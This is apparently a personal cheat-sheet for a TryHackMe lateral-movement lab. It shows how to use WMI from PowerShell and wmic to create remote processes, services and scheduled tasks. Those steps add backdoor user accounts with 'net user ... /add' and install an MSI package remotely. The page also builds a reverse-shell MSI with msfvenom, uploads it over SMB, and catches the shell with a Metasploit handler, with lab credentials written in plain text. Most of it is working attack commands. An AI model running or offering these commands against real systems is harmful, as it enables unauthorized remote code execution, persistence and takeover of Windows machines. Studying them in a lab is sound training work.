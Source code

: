 # Moving Laterally Using WMI

### Connecting to WMI From Powershell

```powershell
# Setting the credential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# Create CimSession with options
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

```

### Remote Process Creation Using WMI

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

with batch&#x20;

```
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 

```

### Creating Services Remotely with WMI

```powershell
# Instanciate service
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

# Get service instance
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

# start
Invoke-CimMethod -InputObject $Service -MethodName StartService
# stop
Invoke-CimMethod -InputObject $Service -MethodName StopService
# delete
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely with WMI

<pre class="language-powershell"><code class="lang-powershell"># Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
<strong># Create task
</strong><strong>Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
</strong>
# Start task
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"

# Stop task

Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"

</code></pre>

### Installing MSI packages through WMI

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

batch

```
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi

```

## MSI Reverse shell

attacker

```bash
# create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
# upload it
smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994

# listen 
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit
```

intermediate machine

<pre class="language-powershell"><code class="lang-powershell"><strong># Authentication
</strong><strong>PS C:\> $username = 't1_corine.waters';
</strong>PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop

# Trigger payload
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
</code></pre>
